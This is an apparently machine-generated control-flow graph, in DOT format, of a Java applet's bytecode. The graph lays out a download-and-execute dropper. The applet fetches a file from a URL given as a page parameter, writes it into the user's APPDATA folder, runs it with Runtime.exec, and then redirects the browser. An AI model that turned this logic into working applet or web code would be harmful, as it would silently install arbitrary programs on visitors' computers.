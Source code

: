 digraph "" {
    "r0 := @this: Java"
    "push \"java.runtime.version\""
    "r0 := @this: Java"->"push \"java.runtime.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.runtime.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "pop"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"pop";
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"
    "pop"->"staticinvoke <java.util.Locale: java.util.Locale getDefault()>";
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"
    "staticinvoke <java.util.Locale: java.util.Locale getDefault()>"->"virtualinvoke <java.util.Locale: java.lang.String getCountry()>";
    "virtualinvoke <java.util.Locale: java.lang.String getCountry()>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"pop";
    "push \"APPDATA\""
    "pop"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r5"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r5";
    "load.r r0"
    "store.r r5"->"load.r r0";
    "push \"YourFile\""
    "load.r r0"->"push \"YourFile\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"YourFile\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r6"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r32"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r32";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r32"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r33"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r33";
    "new java.io.FileOutputStream"
    "store.r r33"->"new java.io.FileOutputStream";
    "store.r $r15"
    "new java.io.FileOutputStream"->"store.r $r15";
    "load.r $r15"
    "store.r $r15"->"load.r $r15";
    "new java.lang.StringBuilder"
    "load.r $r15"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r5"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r6"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink\""
    "load.r r0"->"push \"YourDirectLink\"";
    "push \"YourDirectLink\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r11"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r11";
    "push 1024"
    "store.r r11"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r12"
    "newarray"->"store.r r12";
    "load.r r11"
    "store.r r12"->"load.r r11";
    "load.r r12"
    "load.r r11"->"load.r r12";
    "push 0"
    "load.r r12"->"push 0";
    "push 0"->"load.r r12";
    "arraylength"
    "load.r r12"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r11"
    "push -1"->"ifcmpeq.i load.r r11";
    "ifcmpeq.i load.r r11"->"load.r $r15";
    "load.r $r15"->"load.r r12";
    "load.r r12"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r11"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r11";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r11"->"load.r r11";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r11"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r15";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r15"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r33"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r33";
    "load.r r33"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r32"
    "dup1.r"->"load.r r32";
    "checkcast"
    "load.r r32"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r5";
    "store.r r5"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r5";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r5"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}
